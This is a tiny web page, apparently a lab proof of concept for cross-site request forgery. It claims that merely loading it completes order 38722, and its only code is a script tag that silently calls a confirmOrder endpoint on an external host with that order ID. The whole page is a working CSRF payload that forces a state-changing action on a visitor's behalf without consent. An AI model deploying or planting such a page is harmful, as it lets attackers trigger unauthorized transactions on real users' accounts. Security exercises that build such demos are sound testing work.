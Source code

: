 # Auto-completion of your order

Just loading this page completes your order with ID 38722.

<script src="http://shred-117275-ylok2a4pjxiiakfh.westus.cloudapp.azure.com/Skate/confirmOrder?orderId=38722"/>